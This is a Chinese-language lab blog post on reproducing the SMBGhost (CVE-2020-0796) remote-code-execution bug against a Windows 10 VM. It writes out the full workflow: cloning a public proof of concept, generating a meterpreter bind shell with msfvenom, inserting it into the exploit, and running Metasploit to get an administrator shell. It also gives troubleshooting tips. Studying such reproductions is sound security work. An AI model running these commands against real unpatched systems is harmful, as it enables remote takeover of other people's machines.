### 惭愧声明
稍微了解一点就会知道，CVE-2020-0796是可以拿到shell的，但是因为技术能力的限制，到现在复现bug我也没有拿到shell，只会让靶机蓝屏重启。先把博客更了，等后续搞明白了，再来更新。

### 准备工作

首先，准备一台kali和一台运行1903版本或者1909版本的windows10。

<!-- more -->

关闭windows10的防火墙和实时保护功能。

在kali上准备待会要用到的工具。

1. 启用扫描脚本

```git
  git clone https://github.com/ollypwn/SMBGhost.git
```

有人说这个脚本不准确，有时候检测超时也会报bug可利用，这个脚本也不太重要，至少对于这个实验来说。

2. 下载EXP脚本

```git
  git clone https://github.com/chompie1337/SMBGhost_RCE_PoC.git
```

### 扫描bug

准备好扫描脚本后进入该目录，执行：

```python
  python3 scanner.py 192.168.20.135
```

"192.168.20.135"更换为自己靶机的IP。下面是效果图，显示"Vulnerable"，易受攻击的。



### 准备payload

进入使用EXP脚本的SMBGhost_RCE_PoC目录，执行：

```bash
  msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=4444 -f py -o payload
```

执行之后会在SMBGhost_RCE_PoC目录下生成payload文件。接下来很重要的步骤：

1. 打开payload。

2. 打开exploit.py。

3. 将payload中“buf”字段全部替换为“USER_PAYLOAD”字段。

4. 复制替换完成的payload文件内容。

5. 粘贴到（覆盖）exploit.py文件USER_PAYLOAD区域。



### 开始攻击

1. 启动```msfconsole```。

2. 使用模块。

3. 设置有效载荷和相关参数。

依次执行以下命令：

```bash
  msfconsole -q
  use exploit/multi/handler
  set payload windows/x64/meterpreter/bind_tcp
  set lport 4444
  set rhost 192.168.20.135
  run
```



再打开一个终端，进入SMBGhost_RCE_PoC目录，运行：

```bash
  python3 exploit.py -ip 192.168.20.135
```



出现这步后按下回车。

然后回到win10，发现win10蓝屏正在重启。



如果完成的彻底，```msfconsole```终端会弹出meterpreter，但是很遗憾，我没有拿到靶机的shell。



---

手动分割线

---

### 玄学排错

接着上次的来说，上次是没有拿到shell的。经过一些网上拍错和别的同学的交流，得到了一些启发，最终成功拿到了shell。其中有很多问题也是很玄学的。

1. 把靶机的内存设置大一点，我直接给到了8G。

2. kali和靶机的连通最好不要使用NAT连接，如果使用NAT连接，建议把宿主机的防火墙和病毒保护也关闭。

3. 在靶机中要在控制面板-程序-启用或关闭windows的功能-打开SMB开关，然后重启。

4. 在进行paylod-code生成的时候，尽量不要使用原有的4444端口（我用的9876）。

5. 更换了windows的镜像，重新安装了一个虚拟机，镜像保存在了[百度云盘](https://pan.baidu.com/s/1M1GvWoMcJc5nZA_tS4tang)里，提取码：0731。

### 成功的尝试

生成payload-code。



然后替换exploit.py文件中user_payload字段。



前面的操作还是一样，进入工具，使用模块，设置payload。



设置攻击参数。



执行run命令并在此等候。



然后再开一个终端



成功拿到shell，是管理员的权限没有错。

